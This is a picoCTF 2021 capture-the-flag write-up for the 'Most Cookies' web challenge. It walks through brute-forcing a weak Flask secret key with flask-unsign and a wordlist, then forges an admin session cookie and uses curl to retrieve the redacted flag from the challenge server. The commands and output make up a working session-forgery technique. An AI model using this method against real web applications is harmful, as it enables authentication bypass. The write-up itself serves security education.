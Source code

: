 # Most Cookies

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Alright, enough of using my own encryption. 
Flask session cookies should be plenty secure! 

server.py 
http://mercury.picoctf.net:18835/

Hints:
1. How secure is a flask cookie?
```

## Solution
 
According to the challenge description we should expect a flask session cookie. This cookie is normally called `session`.

### Analyse the source code

Lets start by analysing the server source code
```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()

```

We can see that the secret key is chosen randomly from one of the cookie names
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```

And we want the `very_auth` value to be set to `admin` to get the flag
```python
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
```

### Create a cookie wordlist

To get the secret key we need to create a wordlist with all the cookie names.  
We use some command-line kung-fu to do this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ cat server.py | grep cookie_names | head -n 1 | cut -d '[' -f 2 | sed 's/", "/\n/g' | tr -d '"]'
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ cat server.py | grep cookie_names | head -n 1 | cut -d '[' -f 2 | sed 's/", "/\n/g' | tr -d '"]' > cookies_wordlist.txt

```

### Get the secret key

We will use the [flask-unsign tool](https://pypi.org/project/flask-unsign/) to get the secret key
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ ~/python_venvs/flask-unsign/bin/flask-unsign --unsign --server 'http://mercury.picoctf.net:18835/' --wordlist cookies_wordlist.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZSv2EQ.LJQ2BhAgtiyRAhfIe8WV6U12bmc
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

So the secret key is `fortune`.

### Forge a flask session cookie

Now we can forge a flask session cookie with the value of `admin`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ ~/python_venvs/flask-unsign/bin/flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune               
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZSv3cQ.7JuXHXOl4eRVjuxwC-TyLsKtTJk
```

### Get the flag

Finally we can use `curl` and `grep` to get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Most_Cookies]
└─$ curl -s --cookie "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZSv3cQ.7JuXHXOl4eRVjuxwC-TyLsKtTJk" http://mercury.picoctf.net:18835/display | grep -oE 'picoCTF{.*}'
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cut - Linux manual page](https://man7.org/linux/man-pages/man1/cut.1.html)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [sed - Linux manual page](https://man7.org/linux/man-pages/man1/sed.1.html)
- [tr - Linux manual page](https://man7.org/linux/man-pages/man1/tr.1.html)
- [PyPI - flask-unsign](https://pypi.org/project/flask-unsign/)
- [Wikipedia - HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
